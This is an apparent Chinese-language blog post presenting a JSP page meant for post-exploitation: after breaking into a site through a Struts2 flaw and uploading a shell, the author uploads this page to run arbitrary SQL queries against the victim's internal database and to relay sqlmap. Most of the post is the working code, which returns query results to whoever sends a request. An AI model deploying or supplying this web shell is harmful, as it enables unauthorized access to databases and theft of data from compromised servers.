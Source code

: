 ```yaml
---
layout: post
title: Jsp 数据库连接工具
---
```


在玩struts2漏洞的时候,传shell,找数据库配置文件，当没开外网的时候，可以直接用下面的脚本。

###
    <%@ page import="java.sql.*" %>
    <%@ page import="java.util.*" %>
    <%@ page import="java.io.*" %>
    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <form>
      <textarea rows="4" cols="60" name="query"></textarea></br>
      <button type="submit">executeQuery</button>
    </form>
    <%

    try {

        String sql = request.getParameter("query");
        out.println(sql+"</br>");
        String driver = ""; 
        String url = "";
        String username = "";
        String password = "";
        Class.forName(driver).newInstance();
        Connection conn = DriverManager.getConnection(url,username,password);
    
        Statement stmt = conn.createStatement();
        ResultSet rs = stmt.executeQuery(sql);
        ResultSetMetaData rsmd = rs.getMetaData();
        int num = rsmd.getColumnCount();
    
        while(rs.next()) {
            for (int i=1; i<=num; i++){
                     
                    out.println(rs.getString(i)+"&nbsp");
           }
           out.println("</br>");
     }
   
        rs.close();
        stmt.close();
        conn.close();

    } catch (Exception e) {
        response.setStatus(200);
        e.printStackTrace();
    }


    %>
    
自己配置好了之后上传到站点，然后可以用来直接执行数据库操作，或者外连sqlmap.
比如：https://butian.360.cn/vul/info/qid/QTVA-2015-201287

